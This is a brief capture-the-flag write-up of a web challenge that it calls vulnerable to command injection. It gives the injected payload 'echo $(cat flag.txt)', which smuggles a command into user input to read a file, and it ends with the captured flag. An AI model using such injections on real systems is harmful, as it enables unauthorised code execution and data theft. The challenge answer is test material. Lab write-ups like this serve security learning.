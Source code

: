 # CTF 101
![CleanShot 2025-03-02 at 16 22 28@2x](https://github.com/user-attachments/assets/ccdc8d48-f9f6-4e5b-a129-eef7532b1bcb)
Attachment: [ctf101.zip](https://github.com/esheeep/ctf-writeups/blob/main/SnykCon2025/Attachments/ctf101.zip)

## Writeup
The challenge is a web page that takes a user input. The provided source code suggest that it vulnerable to RCE with command injection. <br>
![CleanShot 2025-03-02 at 16 33 39](https://github.com/user-attachments/assets/b2597319-263a-4b53-8620-e10fab6f4119) <br>

Payload: echo $(cat flag.txt) <br>

![CleanShot 2025-03-02 at 16 38 54](https://github.com/user-attachments/assets/6bc65eb1-a14b-4c49-bb9a-b8d9c5cae10d) <br>

Flag: flag{3b74fc0628299870edabc5072b25cf78}


